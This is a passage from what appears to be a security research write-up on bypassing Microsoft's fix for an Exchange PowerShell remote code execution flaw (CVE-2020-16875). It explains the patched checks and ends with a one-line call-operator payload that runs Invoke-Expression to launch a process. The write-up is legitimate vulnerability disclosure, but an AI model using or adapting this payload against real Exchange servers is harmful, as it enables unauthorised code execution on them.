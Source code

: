 ```cs
```

The function performs several checks (well 6 to be exact) and if any of them are true, then the attack will fail: 

1. The command is null 
2. There are errors in the command when parsing it
3. There are more than 1 command
4. The provided command isn't "New-TransportRule"
5. The provided command parameter is "-Organization"
6. The provided command parameter is not "-DlpPolicy"

Also, Microsoft changed the language mode of the runspace for the `CmdletRunner` class to `RestrictedLanguage`:

```cs
// Microsoft.Exchange.Management.Common.CmdletRunner
internal static IEnumerable<PSObject> RunCmdlets(IEnumerable<string> cmdlets, bool continueOnFailure = false)
{
    PSLanguageMode languageMode = Runspace.DefaultRunspace.SessionStateProxy.LanguageMode;
    if (languageMode != PSLanguageMode.RestrictedLanguage)
    {
        Runspace.DefaultRunspace.SessionStateProxy.LanguageMode = PSLanguageMode.RestrictedLanguage;
    }
```

Amazingly, with all these checks and a `RestrictedLanguage` mode runspace, we can still bypass the function using good ol' fashion call operators!

![Escaping RestrictedLanguage mode in Powershell](/assets/images/making-clouds-rain/restricted.png "Escaping RestrictedLanguage mode in Powershell")

`& 'Invoke-Expression' '[Diagnostics.Process]::Start("cmd","/c mspaint")'; New-TransportRule -DlpPolicy`


[^1]: [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-16875](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-16875)
[^2]: [https://office365itpros.com/2019/10/24/office-365-hits-200-million-monthly-active-users/](https://office365itpros.com/2019/10/24/office-365-hits-200-million-monthly-active-users/)
[^3]: [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_language_modes?view=powershell-7.1](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_language_modes?view=powershell-7.1)
[^4]: [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-17132](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-17132)
[^5]: [https://en.wikipedia.org/wiki/Software_as_a_service](https://en.wikipedia.org/wiki/Software_as_a_service)